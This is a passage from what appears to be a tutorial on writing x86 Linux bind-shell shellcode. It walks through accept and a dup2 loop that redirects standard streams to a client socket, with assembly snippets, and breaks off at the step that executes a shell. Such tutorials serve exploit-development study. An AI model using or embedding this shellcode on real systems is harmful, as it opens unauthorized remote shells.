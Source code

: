 ```asm
inc ebx
inc ebx
int 0x80
```
### 4 Accept a connection
Next step is to call accept(sockfd, NULL, NULL);
This translates to:\
EAX - 0x66\
EBX - 0x5\
ECX - pointing to stack:\
STACK: edi, 0x0, 0x0\
\
Note that on success, listen returns 0x0 into eax (same as above).
```asm
; stack setup
push eax
push eax
push edi

; *args
mov ecx, esp

; set up syscall and accept
mov al, 0x66
inc ebx
int 0x80
```
### 5 Redirect output
Now that we have accepted the connection, we need to redirect in, out, & err.
The return value for accept is the descriptor for the client connection, which will be used as an argument for dup2 in ebx.  We can just move this from eax to ebx first.\
dup2(client_socket, 0);\
dup2(client_socket, 1);\
dup2(client_socket, 2);\
This translates to:\
EAX - 0x3f\
EBX - return value from accept\
ECX - integer 2, 1, or 0
Since this is the same call 3 times and the only difference is an increasing (*hint* or decreasing) int.. this looks like a loop would be best to use here.\
Luckily, our loop only needs to decrease from 2.  ECX can be used as the counter AND the argument, which helps us out a lot here.

Grab the syscall number for dup2:
```c
cat /usr/
```
There is a conditional jump in assembly called jns which means, as I understand it, "Jump No Sign".  Which will take the jump until the Sign Flag is set.  Easier description.. Take the jump until the value becomes negative.\
This conditional jump is perfect for us because it will include 0 in our loop before exiting.
```asm
        mov ebx, eax    ; client_socket arg
        xor ecx, ecx    ; zero ecx avoiding nulls
        mov cl, 0x2     ; setup counter
dup:
        mov al, 0x3f
        int 0x80        ; dup2(client_socket, [ecx])
        dec ecx
        jns dup
```
### 6 Execute a shell